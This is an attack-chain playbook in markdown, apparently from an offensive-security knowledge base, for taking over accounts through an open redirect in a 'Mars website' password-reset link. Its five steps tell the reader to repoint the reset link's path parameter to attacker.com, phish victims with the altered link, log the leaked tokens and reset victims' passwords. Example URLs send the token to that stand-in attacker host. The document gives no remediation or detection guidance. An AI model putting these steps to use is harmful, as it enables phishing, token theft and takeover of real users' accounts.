

---
tags:
  - open-redirect
  - account-takeover
  - phishing
  - password-reset
  - token-theft
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Request-Password-Reset-for-Target-User]]'
  - '[[procedures/Modify-Reset-Link-Parameter]]'
  - '[[procedures/Trick-User-into-Clicking-Modified-Link]]'
  - '[[procedures/Capture-Password-Reset-Token]]'
  - '[[procedures/Use-Token-to-Reset-Password]]'
step_count: 5
techniques:
  - '[[T1566.002]]'
  - '[[Drive-by Compromise]]'
  - '[[Account Manipulation]]'
updated_at: '2025-12-14T17:33:12.496Z'
description: >-
  Multi-stage attack exploiting an open redirect vulnerability in the password
  reset functionality to steal reset tokens and achieve full account takeover.
skill_level: intermediate
impact_level: high
id: 76bafacc-88f9-423f-80f7-541ad03cd49c
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
mitre_techniques:
  - '[[T1566.002]]'
  - '[[Drive-by Compromise]]'
  - '[[Account Manipulation]]'
---
# Account Takeover via Open Redirect in Password Reset Link

Multi-stage attack chain demonstrating a complete attack workflow exploiting an open redirect in the Mars website's password reset feature to redirect users to an attacker-controlled site, capture reset tokens, and takeover accounts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Domain control (e.g., attacker-owned server for redirect target)

### Target Environment

- Web platform (Mars website)
- Access to password reset functionality
- Email delivery to victim

### Initial Access Requirements

- Knowledge of victim's email/username
- No prior credentials needed
- Ability to send phishing emails or messages

## Detailed Attack Procedures

### Step 1: Request Password Reset for Target User
procedure: [[procedures/Request-Password-Reset-for-Target-User]]

**Objective**: Initiate the password reset process to obtain a reset link containing the vulnerable parameter.

**Instructions**: Navigate to the Mars website's password reset page and enter the target user's email or username to trigger an email with the reset link. The link will include a modifiable path parameter specifying the reset page.

**Expected Output**: Email received by attacker (or intercepted) containing the reset link, e.g., `https://mars.com/reset?token=abc123&path=/reset-page`.

**Success Indicators**:
- Reset email sent successfully
- Link contains modifiable path parameter

### Step 2: Modify the Reset Link Parameter
procedure: [[procedures/Modify-Reset-Link-Parameter]]

**Objective**: Alter the vulnerable parameter in the reset link to point to an attacker-controlled domain.

**Instructions**: Inspect the reset link URL and change the path parameter to redirect to your controlled domain, e.g., change `path=/reset-page` to `path=https://attacker.com/capture`. Ensure the domain is set up to log or intercept parameters.

**Expected Output**: Modified URL ready for distribution, e.g., `https://mars.com/reset?token=abc123&path=https://attacker.com/capture`.

**Success Indicators**:
- Parameter successfully altered without breaking the URL structure
- Test redirect works when clicked

### Step 3: Trick User into Clicking the Modified Link
procedure: [[procedures/Trick-User-into-Clicking-Modified-Link]]

**Objective**: Deliver the modified link to the victim via phishing to induce a click and trigger the redirect.

**Instructions**: Send the modified reset link to the victim via email, SMS, or social engineering, disguising it as a legitimate password reset notification from Mars. When clicked, it will redirect to the attacker-controlled site.

**Expected Output**: Victim clicks the link, causing a redirect to attacker.com where the token is exposed in the query parameters.

**Success Indicators**:
- Victim interacts with the phishing message
- Redirect traffic observed on attacker server

### Step 4: Capture the Password Reset Token
procedure: [[procedures/Capture-Password-Reset-Token]]

**Objective**: Intercept the exposed reset token during the redirect to the controlled domain.

**Instructions**: On the attacker-controlled server, configure logging or a script to capture query parameters from incoming redirects. The token will be passed in the URL, e.g., `https://attacker.com/capture?token=abc123`.

**Expected Output**: Logged token value, e.g., `abc123`, ready for use.

**Success Indicators**:
- Token captured in server logs
- No errors in redirect handling

### Step 5: Use the Token to Reset the Password
procedure: [[procedures/Use-Token-to-Reset-Password]]

**Objective**: Submit the captured token to the legitimate endpoint to change the victim's password and gain access.

**Instructions**: Navigate to the Mars reset endpoint with the captured token and set a new password controlled by the attacker. Submit the form to complete the reset.

**Expected Output**: Password successfully changed; login with new credentials grants account access.

**Success Indicators**:
- Password reset confirmation
- Successful login to victim's account

## Attack Chain Summary

### Key Achievements

1. Exploited open redirect to bypass intended flow
2. Captured sensitive reset token via phishing
3. Achieved full account takeover without direct credentials

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1566.002]]
- [[Drive-by Compromise]]
- [[Account Manipulation]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
